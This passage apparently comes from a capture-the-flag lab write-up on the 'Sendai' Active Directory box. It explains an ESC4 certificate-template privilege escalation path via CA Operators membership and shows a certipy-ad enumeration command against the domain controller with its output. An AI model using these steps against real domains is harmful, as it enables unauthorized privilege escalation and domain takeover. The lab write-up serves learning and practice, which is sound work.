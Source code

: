 ```bash
cp /home/kali/.nxc/logs/DC_10.10.91.145_2025-09-25_125151_bloodhound.zip .
                                                                                 
```

we see that


![[Pasted image 20250925175508.png]]

## Privilege Escalation via ESC4 — Clifford.Davey’s Golden Ticket

Analysis of BloodHound data reveals that Clifford.Davey is a member of the CA Operators group, which provides full control over certain certificate templates. NetExec enumeration indicates that the `SendaiComputer` template has the Client Authentication EKU enabled. Given the CA Operators’ permissions, this template can be modified to issue a certificate capable of impersonating a Domain Admin. This scenario represents a classic ESC4 (Access Control) vulnerability, highlighting how misconfigured certificate templates can be leveraged for privilege escalation and domain compromise.


```bash
certipy-ad find -u clifford.davey -vulnerable -target dc.sendai.vl -dc-ip 10.10.91.145 -stdout   
```

### OUTPUT

```output
ertipy v5.0.3 - by Oliver Lyak (ly4k)

Password:
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 16 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'sendai-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'sendai-DC-CA'
[*] Checking web enrollment for CA 'sendai-DC-CA' @ 'dc.sendai.vl'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sendai-DC-CA
    DNS Name                            : dc.sendai.vl
    Certificate Subject                 : CN=sendai-DC-CA, DC=sendai, DC=vl
    Certificate Serial Number           : 326E51327366FC954831ECD5C04423BE
    Certificate Validity Start          : 2023-07-11 09:19:29+00:00
    Certificate Validity End            : 2123-07-11 09:29:29+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SENDAI.VL\Administrators
      Access Rights
        ManageCa                        : SENDAI.VL\Administrators
                                          SENDAI.VL\Domain Admins
```
